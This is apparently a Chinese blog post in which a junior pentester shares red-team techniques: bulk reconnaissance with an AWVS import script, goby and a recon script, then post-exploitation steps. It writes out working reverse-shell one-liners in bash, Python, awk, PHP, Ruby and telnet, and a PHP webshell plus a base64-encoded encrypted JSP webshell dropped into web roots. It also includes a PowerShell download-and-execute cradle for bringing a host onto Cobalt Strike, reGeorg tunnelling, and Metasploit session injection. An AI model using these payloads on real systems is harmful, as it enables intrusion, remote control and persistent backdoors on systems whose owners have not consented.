






安服仔，最近做了好几个项目都是红队服务，我一ctf签到选手，src低危挖掘者，日常项目低危三连玩家哪懂这啊。好在大佬们实在太猛，给大佬们端茶倒水好好学习了一波。
1.前期打点 前期打点个人感觉就是批量批量再批量，红队服务不同于日常项目一个登陆框日一天，可以针对目标范围内所有资产进行渗透，这个时候大范围收集相关子域名，c段就很有必要。资产直接找客户要，客户很多都会给。也可以自己收集，google找到官网，onefoeall 收集子域名，ARL 收集相关资产…方法很多。
收集到了足够的资产之后，就是快乐的批量打点时间，作为一个没有0day，没有批量脚本的菜鸡，当然要充分发挥各大工具的作用。
1.1 awvs awvs这个不用多说，收集到的子域名直接往里面导入就完事，子域名太多不想手动？批量脚本来一波，该脚本导入url的同时可开启awvs的代理联动xray，在相同目录下新建url.txt文件，将需要扫描的url放到里面即可，一次性导入太多子域名可能会卡，可以根据自身主机性能适当调整导入50个还是100个…
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 import requestsimport jsonimport requests.packagesimport urllib3.packagesfrom urllib3.exceptions import InsecureRequestWarningurllib3.disable_warnings(InsecureRequestWarning) apikey = '1986ad8c0a5b3df4d7028d5f3c06e936c824cdd6ca6d14ec78eed27dce5423fa8' apikey = str (apikey) headers = {'Content-Type' : 'application/json' ,"X-Auth" : apikey} def addTask (url,target ): try : url = '' .join((url, '/api/v1/targets/add' )) data = {"targets" :[{"address" : target,"description" :"" }],"groups" :[]} r = requests.post(url, headers=headers, data=json.dumps(data), timeout=30 , verify=False ) result = json.loads(r.content.decode()) return result['targets' ][0 ]['target_id' ] except Exception as e: return e def scan (url,target,Crawl,user_agent,profile_id,proxy_address,proxy_port ): scanUrl = '' .join((url, '/api/v1/scans' )) target_id = addTask(url,target) if target_id: data = {"target_id" : target_id, "profile_id" : profile_id, "incremental" : False , "schedule" : {"disable" : False , "start_date" : None , "time_sensitive" : False }} try : configuration(url,target_id,proxy_address,proxy_port,Crawl,user_agent) response = requests.post(scanUrl, data=json.dumps(data), headers=headers, timeout=30 , verify=False ) result = json.loads(response.content) return result['target_id' ] except Exception as e: print (e) def configuration (url,target_id,proxy_address,proxy_port,Crawl,user_agent ): configuration_url = '' .join((url,'/api/v1/targets/{0}/configuration' .format (target_id))) data = {"scan_speed" :"fast" ,"login" :{"kind" :"none" },"ssh_credentials" :{"kind" :"none" },"sensor" : False ,"user_agent" : user_agent,"case_sensitive" :"auto" ,"limit_crawler_scope" : True ,"excluded_paths" :[],"authentication" :{"enabled" : False },"proxy" :{"enabled" : Crawl,"protocol" :"http" ,"address" :proxy_address,"port" :proxy_port},"technologies" :[],"custom_headers" :[],"custom_cookies" :[],"debug" :False ,"client_certificate_password" :"" ,"issue_tracker_id" :"" ,"excluded_hours_id" :"" } r = requests.patch(url=configuration_url,data=json.dumps(data), headers=headers, timeout=30 , verify=False ) def main (): Crawl = False proxy_address = '127.0.0.1' proxy_port = '7777' awvs_url = 'https://127.0.0.1:13443/' with open ('url.txt' ,'r' ,encoding='utf-8' ) as f: targets = f.readlines() profile_id = "11111111-1111-1111-1111-111111111111" user_agent = "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21" if Crawl: profile_id = "11111111-1111-1111-1111-111111111117" for target in targets: target = target.strip() if scan(awvs_url,target,Crawl,user_agent,profile_id,proxy_address,int (proxy_port)): print ("{0} 添加成功" .format (target)) if __name__ == '__main__' : main()
1.2 goby goby也是一个批量打点的好东西，收集到的子域名，C段，往里面一导等着出结果就完事。但是goby我习惯开全端口，这就导致结果出的比较慢，为了不显得那么划水，可以实时查看goby识别出的web网站，结合xray插件提高效率

像这种准确识别出title头的网站，不要犹豫点击xray按钮干他。

1.3 大佬分享的护网自动化小脚本 护网自动化脚本：https://mp.weixin.qq.com/s/uHNx28XFZ5M6KwykMC4Jsg
github地址：https://github.com/0x9f99/Recon
该项目牛逼的地方在于，你只要给他一个域名列如：./recon.sh domain.com 他就会自动收集子域名，解析对应ip保留c段进行masscan+nmap的全端口扫描，
并对扫描的结果进行插件中集成的poc探测。假如头一天接到红队项目，知道明天要去打红队，那晚上先在服务器上./recon.sh domain.com > log.txt 2>&1 & 第二天起床上班看结果，岂不美滋滋。
还有很多打点的方法，菜鸡只分享自己会的，欢迎大佬们补充教教我…
1.4 动静比较小的打法 一些红队测试可能会有溯源，反制等操作。这时候awvs/goby这些动静大的工具一开，可能很快就报警被拦截了。这时候就要换点思路了。
arl就是一款不错的工具，利用自己编写的探测指纹，优先识别出目标资产中例如：struts2/weblogic/shiro等组件开发的系统。针对性去重点测试。
更多可以参考我的文章：https://h11ba1.com/posts/arl_poc%E7%BC%96%E5%86%99.html
2. 打点之后的持续深入 日常只会发现漏洞，找到一个s2，shiro之类的命令执行，第一时间竟感到一丝茫然Σ(っ °Д °;)っ
看了大佬们的操作后，及时学习了一波
找到命令执行之后先判断，是linux还是windows服务器，个人感觉两种服务器略有不同的渗透方法，linux服务器更多的考虑上线代理脚本进行内网渗透，windows服务器肯定要上线cs或者打一个msf的meterpreter。
linux主机 当然第一步肯定先建立一个稳定的入口点，可以考虑反弹shell或者写一个webshell，方便接下来的渗透，
2.1 反弹shell 反弹shell一般使用bash
bash:
1 bash -i >& /dev/tcp/192.168.146.129/2333 0>&1
1 2 3 base64编码为'bash -i >& /dev/tcp/192.168.146.129/2333 0>&1'编码 bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE0Ni4xMjkvMjMzMyAwPiYx}|{base64,-d}|{bash,-i}
python:
1 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
awk:
1 awk 'BEGIN{s="/inet/tcp/0/192.168.1.128/8080";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
php:
1 php -r '$sock=fsockopen("ip",port);exec("/bin/sh -i <&3 >&3 2>&3");'
ruby
1 ruby -rsocket -e'f=TCPSocket.open("ip",port).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
telnet:
1 2 mknod test p && telnet ip port 0<test | /bin/bash 1>test telnet ip port | /bin/bash | telnet ip port
2.2 写入webshell 命令执行到写入webshell还是有很多坑的，接下来简单记录学习到的方法
web路径发现 find命令直接查找web文件，这里查找js文件，可以在网站首页查看js文件名，针对性查找，也可以使用*.js查找所有。
1 2 3 4 find / -name *.js 查找的文件太大，可能会卡死可以只返回固定行数 find / -name *.html > result;head -n 10 result;rm result
读取web日志,查看web路径
查看log位置：
1 2 3 4 5 find / -name log find / -name nginx.conf find / -name httpd.conf 查找含有web关键字的文件名 find / -name '*web*'
常见日志位置：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 /var/log /access_log /var/log /errors_log /var/log /access.log /var/log /errors.log /var/log /apache/access_log /var/log /apache/error_log /var/log /apache/access.log /var/log /apache/error.log /var/log /apache2/access_log /var/log /apache2/error_log /var/log /apache2/access.log /var/log /apache2/error.log /var/log /httpd/access_log /var/log /httpd/error_log /var/log /httpd/access.log /var/log /httpd/error.log /var/www/logs/error_log /var/www/logs/access_log /var/www/logs/error.log /var/www/logs/access.log /apache/logs/error_log /apache/logs/access_log /apache/logs/error.log /apache/logs/access.log /usr/local /apache/logs/access_log /usr/local /apache/logs/error_log /usr/local /apache/logs/access.log /usr/local /apache/logs/error.log /usr/local /apache2/logs/access_log /usr/local /apache2/logs/error_log /usr/local /apache2/logs/access.log /usr/local /apache2/logs/error.log /etc/httpd/logs/access_log /etc/httpd/logs/error_log C:\PhpStudy\PHPTutorial\Apache\logs\access.log C:\PhpStudy\PHPTutorial\Apache\logs\error.log
也可以读取配置文件来查找对应的日志：
1 2 3 4 5 6 7 8 9 /etc/httpd/conf/httpd.conf /usr/local /apache/conf/httpd.conf /usr/local /apache2/conf/httpd.conf /etc/apache2/apache2.conf /usr/local /etc/nginx/nginx.conf /etc/nginx/nginx.conf
Window 2003 + IIS6.0 日志文件默认放在
1 2 3 C:\WINDOWS\system32\Logfiles 配置文件默认在 C:\Windows\system32\inetsrv\metabase.xml
IIS 7 日志文件默认在
1 C:\inetpub\logs\LogFiles
配置文件默认目录
1 2 3 4 5 6 7 8 9 10 C:\Windows\System32\inetsrv\config\applicationHost.config C:\apache\logs\access.log C:\Program Files\Apache Group\Apache\logs\access.log C:\program files\wamp\apache2\logs C:\wamp\logs C:\xampp\apache\logs\error.log C:\apache\logs\error.log C:\Program Files\Apache Group\Apache\logs\error.log C:\wamp\apache2\logs C:\xampp\apache\logs\access.log
写入webshell 发现web路径之后可写入webshell
1 echo '<?php $_REQUEST[1];?>' > /var/www/html/phpinfo.php
webshell简单编码：
1 2 3 将webshell使用burp base64编码 echo -n "PCVAcGFnZSBpbXBvcnQ9ImphdmEudXRpbC4qLGphdmF4LmNyeXB0by4qLGphdmF4LmNyeXB0by5zcGVjLioiJT48JSFjbGFzcyBVIGV4dGVuZHMgQ2xhc3NMb2FkZXJ7VShDbGFzc0xvYWRlciBjKXtzdXBlcihjKTt9cHVibGljIENsYXNzIGcoYnl0ZSBbXWIpe3JldHVybiBzdXBlci5kZWZpbmVDbGFzcyhiLDAsYi5sZW5ndGgpO319JT48JWlmIChyZXF1ZXN0LmdldE1ldGhvZCgpLmVxdWFscygiUE9TVCIpKXtTdHJpbmcgaz0iZTQ1ZTMyOWZlYjVkOTI1YiI7LyrlxqU63qXGATMyTW1kNTyETTE2TQzYpN6lxgFyZWJleW9uZCovc2Vzc2lvbi5wdXRWYWx1ZSgidSIsayk7Q2lwaGVyIGM9Q2lwaGVyLmdldEluc3RhbmNlKCJBRVMiKTtjLmluaXQoMixuZXcgU2VjcmV0S2V5U3BlYyhrLmdldEJ5dGVzKCksIkFFUyIpKTtuZXcgVSh0aGlzLmdldENsYXNzKCkuZ2V0Q2xhc3NMb2FkZXIoKSkuZyhjLmRvRmluYWwobmV3IHN1bi5taXNjLkJBU0U2NERlY29kZXIoKS5kZWNvZGVCdWZmZXIocmVxdWVzdC5nZXRSZWFkZXIoKS5yZWFkTGluZSgpKSkpLm5ld0luc3RhbmNlKCkuZXF1YWxzKHBhZ2VDb250ZXh0KTt9JT4=" | base64 -d > /var/www/test.jsp
2.3 上线代理 代理可以通过上传reGeorg脚本使用proxifier连接进行测试
reGeorg地址：https://github.com/sensepost/reGeorg
访问上传的的代理脚本，出现该字样表明上传成果。
然后python运行reGeorgSocksProxy.py脚本
1 python -u 'http://209.141.41.86:8080/tunnel.nosocket.php' -p 8080
然后使用Proxifier即可连接代理。
Proxifier使用方法：https://blog.csdn.net/u013066730/article/details/88788191
在实际进行代理脚本上传过程中将代理脚本base64编码，会因为太长存在截断问题，php含有特殊符号如&等post数据时会被当做参数被截断。可通过url编码来尝试解决。
windows主机 2.1windows主机信息收集 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 ipconfig /all 本机网络配置 net user 查看用户 tasklist 查询进程 tasklist /svc 查看进程，将返回的进程结果复制到在线网站 在线杀软识别网站： https://www.secshi.com/sharuan.html https://www.ddosi.com/av/1.php net localgroup administrators 查看本地管理员信息 query user || qwinsta 查看当前在线的用户 netstat -ano 查看端口 查看当前权限：whoami 获取域id：whoami /all 获取指定用户的详细信息：net user xxx /domain 判断是否存在域 使用ipconfig /all即可做出判断 查询当前的登录域与用户信息：net config workstation 判断主域：net time /domain route print arp -a 查询路由表及所有可用的ARP缓存表 netsh firewall show config 查看防火墙配置 net share wmic share get name,path,status 查看本机共享列 systeminfo wmic qfe get caption,description,hotfixid,installedon 查询操作系统及版本信息，补丁信息等 在线查看提权exp网站： http://blog.neargle.com/win-powerup-exp-index/ https://bugs.hacking8.com/tiquan/ github项目：https://github.com/AonCyberLabs/Windows-Exploit-Suggester reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings" 查看代理
更多详情可以看：https://xz.aliyun.com/t/7663#toc-6
2.2 上线cs cs上线之前需要先建立监听：
Cobalt Strike–>Listenrs Add 一个监听器

2.2.1执行木马上线cs 生成windows木马：Attacks–>Packages–>Windows Executable
如果主机是64位则需要勾选x64，点击Generate即可生成木马，上传到目标机，命令行执行即可上线。

但是cs的木马上传到目标机时容易被杀软杀掉，此时就需要考虑其他方式上线
如：powershell上线,msf建立meterpreter派生…
2.2.2. powershell上线cs 生成powershell payload

1 powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.75.128:80/a2'))"
命令行执行，即可上线。
2.2.3 msf—cs交互 cs派生会话给msf
msf：
1 2 3 4 5 Set payload windows/meterpreter/reverse_http(这里一定要选择http的这个，因为cs监听器传递会话只支持http和https) 选择payload Show options 查看需要配置的选项 Set lhost 0.0.0.0 监听本地ip Set lport 2020 监听端口 Exploit 执行
cs建立监听器：

一定要选择Foregin对外监听器，host填msf ip，port填写msf监听端口。
msf派生会话给cs:
cs选择建立的http/https监听器。
msf:
1 2 3 4 5 6 7 8 9 use exploit/windows/local/payload_inject set payload windows/x64/meterpreter/reverse_http（选用的payload一定要跟cs下监听的payload方式一样，注意32位和64位） set DisablePayloadHandler true（禁止产生一个新的handler） set LHOST IP（ip为cs监听会话用的ip） set LPORT 端口（端口为cs对应的接受反弹shell的端口） set pid 进程号（设置派生给cs后木马进程的pid进程号，如果有system权限则可以指定一个具有system权限的进程，这样cs接收到会话也是最高权限，也可以不手动选择进程号） set session 1（设置需要派送的meterpreter） exploit（开始执行）
如果msf报错：[-] Exploit aborted due to failure: bad-config: Cannot inject a 64-bit payload into any process on a 32-bit OS
去掉/x64即可。
给大佬们打好了点，上线了cs之后，顿时感觉索然无味，人生失去了方向。为了接下来的项目有点参与感，简单学习一下内网打法。

 alipay
alipay